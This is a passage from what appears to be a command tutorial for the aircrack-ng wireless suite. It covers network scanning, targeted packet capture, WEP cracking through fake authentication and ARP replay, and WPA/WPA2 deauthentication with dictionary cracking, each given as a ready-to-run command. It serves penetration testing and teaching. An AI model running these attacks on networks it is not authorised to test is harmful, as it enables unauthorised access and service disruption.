 
2. **Scanning for Wireless Networks:**
   - `airodump-ng [interface]`
     - This command lists nearby wireless networks and connected devices, providing essential information like BSSID, channel, and encryption type. For example, `airodump-ng wlan0mon` would display all wireless networks visible to the 'wlan0mon' interface.
   - `airodump-ng --band [a/b/g] [interface]`
     - This variation of the command allows scanning in a specific frequency band (a, b, or g) to narrow down the search. For instance, `airodump-ng --band a wlan0mon` would scan for networks only in the 5 GHz (band a) frequency range.


3. **Focusing on a Specific Network to Collect Data:**
   - `airodump-ng --bssid [BSSID] -c [channel] --write [file_name] [interface]`
     - This command targets a specific BSSID (wireless network identifier) and channel for data collection, storing the captured packets in a file. For example, using `airodump-ng --bssid 00:11:22:33:44:55 -c 6 --write output wlan0mon` will capture packets from the network with BSSID 00:11:22:33:44:55 on channel 6 and save them to a file named 'output'.
   - `airodump-ng --bssid [BSSID] --encrypt [WEP/WPA/WPA2] [interface]`
     - This variant allows filtering networks based on encryption type (WEP, WPA, or WPA2) along with BSSID. For instance, `airodump-ng --bssid 00:11:22:33:44:55 --encrypt WPA2 wlan0mon` will focus on capturing data from a WPA2 encrypted network with the specified BSSID.


4. **Attacking a WEP-Encrypted Network:**
   - `aireplay-ng --fakeauth 0 -a [BSSID] -h [MAC] [interface]`
     - This command performs a fake authentication to a WEP network using the specified BSSID and MAC address. For example, `aireplay-ng --fakeauth 0 -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB wlan0mon` simulates a client joining the network, necessary for certain types of attacks.
   - `aireplay-ng --arpreplay -b [BSSID] -h [MAC] [interface]`
     - This command increases network data traffic by sending ARP (Address Resolution Protocol) requests. Increased traffic generates more IVs (Initialization Vectors), which are essential for cracking WEP. For instance, `aireplay-ng --arpreplay -b 00:11:22:33:44:55 -h 66:77:88:99:AA:BB wlan0mon` targets a specific network to accelerate data capture.
   - `aircrack-ng [file_name].cap`
     - This final step uses the collected data in the '.cap' file to crack the WEP key. For instance, executing `aircrack-ng captured_data.cap` will analyze the captured packets and attempt to derive the WEP key, leveraging any vulnerabilities in the WEP encryption.


5. **Attacking a WPA/WPA2 Encrypted Network:**
   - `aireplay-ng --deauth [number] -a [BSSID] -c [target MAC] [interface]`
     - This command forces a target device to disconnect from a WPA/WPA2 network by sending deauthentication packets. For example, `aireplay-ng --deauth 100 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon` will send 100 deauth packets to disconnect a device with MAC 66:77:88:99:AA:BB from the network with BSSID 00:11:22:33:44:55.
   - `aircrack-ng -w [dictionary_file] [file_name].cap`
     - This command attempts a dictionary attack against the WPA/WPA2 password using the captured handshake data. For instance, using `aircrack-ng -w wordlist.txt captured_handshake.cap` will try to match the network password against the words in 'wordlist.txt' using the data in 'captured_handshake.cap'. This method's success largely depends on the strength of the dictionary file and the complexity of the network password.


## Advanced Usage:
